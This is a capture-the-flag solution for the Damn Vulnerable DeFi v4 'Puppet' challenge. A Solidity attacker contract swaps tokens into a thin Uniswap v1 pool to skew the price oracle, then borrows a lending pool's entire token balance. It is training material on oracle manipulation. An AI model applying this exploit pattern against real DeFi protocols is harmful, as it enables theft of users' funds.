 # Damn vulnerable defi v4 Puppet

  
*Problem statement*

There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There’s a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Pass the challenge by saving all tokens from the lending pool, then depositing them into the designated recovery account. You start with 25 ETH and 1000 DVTs in balance.

```js
// SPDX-License-Identifier: MIT

pragma solidity =0.8.25;

  

import {IUniswapV1Exchange} from "../../src/puppet/IUniswapV1Exchange.sol";

import {DamnValuableToken} from "../../src/DamnValuableToken.sol";

import {PuppetPool} from "../../src/puppet/PuppetPool.sol";

  

contract AttackerContract {

IUniswapV1Exchange public uniswapV1Exchange;

  

address payable public recoveryAcct;

  

DamnValuableToken public token;

  

PuppetPool public pool;

  

// the pool current balance

uint256 constant POOL_INITIAL_TOKEN_BALANCE = 100_000e18;

  

constructor(

address _pool,

address _recoveryAcct,

address _token,

address _uniswapV1Exchange

) payable {

pool = PuppetPool(_pool);

recoveryAcct = payable(_recoveryAcct);

token = DamnValuableToken(_token);

uniswapV1Exchange = IUniswapV1Exchange(_uniswapV1Exchange);

}

  

function attack() public {

// approve token

token.approve(address(uniswapV1Exchange), 1000e18);

  

// swap token

uniswapV1Exchange.tokenToEthSwapInput(

1000e18,

1e18,

block.timestamp + 1 days

);

  

// after swapping I've affected the price in the exchange

uint256 collateral = pool.calculateDepositRequired(

POOL_INITIAL_TOKEN_BALANCE

);

  

// then borrow all the tokens

pool.borrow{value: collateral}(

POOL_INITIAL_TOKEN_BALANCE,

recoveryAcct

);

}

  

receive() external payable {}

}
```